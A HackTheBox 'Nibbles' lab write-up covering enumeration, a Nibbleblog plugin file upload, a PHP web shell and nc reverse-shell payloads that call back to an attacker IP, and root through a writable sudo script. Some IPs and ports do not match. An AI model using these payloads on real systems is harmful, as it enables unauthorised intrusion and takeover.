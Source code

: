 ```yaml
---
title: HackTheBox - Machine - Nibbles 
date: 2022-10-02
categories: [HackTheBox, Machine]
tags: [gobuster]
---
```


# Introduction
Let's walk through the box **Nibbles**, an easy-rated Linux box that showcases common enumeration tactics, basic web application exploitation, and a file-related misconfiguration to escalate privileges.

>For this writeup I will say that the IP adresses are the following: 
>
> - __attack machine__ is `10.10.10.1`
> 
> - __target machine__ is `10.10.10.2`
{: .prompt-warning }

# Enumeration
Firstly let's do some basic enumeration with nmap.
We will begin with a simple quick scan to discover common open ports and service versions:
````console
nmap -sV --open 10.10.10.2
````

We quickly see two open ports:
````console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
````

Let's start another scan, a full one this time, to be sure to not miss any unusual port:
````
nmap -sV -p- 10.10.10.2
````

While the full scan is running we can check the two known open ports with the defaults nmap scripts:
````
nmap -sC -p 22,80 10.10.10.2
````

Unfortunatly the full scan and the script scan didn't finish with something useful for us. Now let's look at the web server we found.

## Web Enumeration

When we open firefox on the address there is just one message displayed: Hello world!

Checking the page source reveal an interesting comment:
````html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
````

A simple web research on **Nibbleblog** shows that it's a PHP based blog engine with a well know File Upload Vulnerability which allows an authenticated attacker to upload and execute PHP code on the server. We still don't know yey which version on Nibbleblog is running this server but it's still something good to know.

Now it's time to use gobuster to discover hidden directories:
````console
gobuster dir -w /path/to/wordlist/common.txt -u 10.10.10.2
````

Nothing interesting with this scan. Let's try now to add the directory found in the html comment:
````console
gobuster dir -w /path/to/wordlist/common.txt -u 10.10.10.2/nibbleblog/
==========================================================================
/.hta                 (Status: 403) [Size: 302]
/.htaccess            (Status: 403) [Size: 307]
/.htpasswd            (Status: 403) [Size: 307]
/admin                (Status: 301) [Size: 323] [--> http://10.10.10.2/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]                                           
/content              (Status: 301) [Size: 325] [--> http://10.10.10.2/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]                                             
/languages            (Status: 301) [Size: 327] [--> http://10.10.10.2/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 325] [--> http://10.10.10.2/nibbleblog/plugins/]  
/README               (Status: 200) [Size: 4628]                                               
/themes               (Status: 301) [Size: 324] [--> http://10.10.10.2/nibbleblog/themes/]  
````

Many directories found here!

After looking at each here are the interesting ones for now:
- admin/    -> Many files here
- admin.php -> login form
- content/  -> 
- README/ -> confirm the vulnerable version

Can't bruteforce login -> error message to blacklist us

In /content/private we find user.xml containing the admin user and we can see some blacklisted addresses

Nothing seems to leak the password. Finding the word nibbles in many files is worth giving it a try with the admin user.

Bingo!

Not easy to guess a password like that. HackTheBox advices us to use tools such as [CeWL](https://github.com/digininja/CeWL) to create custom generated wordlist based on a website.

# Initial Foothold

Now we are logged as admin let's take time to walk the administration panel.
Attempting to make a new page and embed code or upload files does not seem like the path. Let us check out the plugins page.

On the configuration page of the My image plugin we can see an upload form. Here we will try to send some PHP code to the server:

Firstly let's try to print the id command by savin the below code into a test.php file and uploading it:
````php
<?php system('id'); ?>
````

Now if we cURL the good URL:
````bash
curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
````

- now let's upload a reverse shell, inspired by payloadallthethings: <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
- setup the nc listener : nc -lvnp 9443
- add python3 -c 'import pty; pty.spawn("/bin/bash")' to upgrade the shell
- listing files shows user.txt and personal.zip

> here is the user flag !

# Privilege Escalation 
- unzip the zip and see a monitor.sh
- let's move linpeas.sh to the victim machine
- python -m http.server 8000
- wget 10.10.10.1:8000/linpeas.sh
- chmod +x linpeas.sh
- ./linpeas.sh
- The nibbler user can run the monitor.sh file with root privs and us we can modify the content! So we will append a reverse shell cmd to the end of the file to get root access
- echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
- nc -lvnp 4445
- sudo monitor.sh

> Here is the root flag !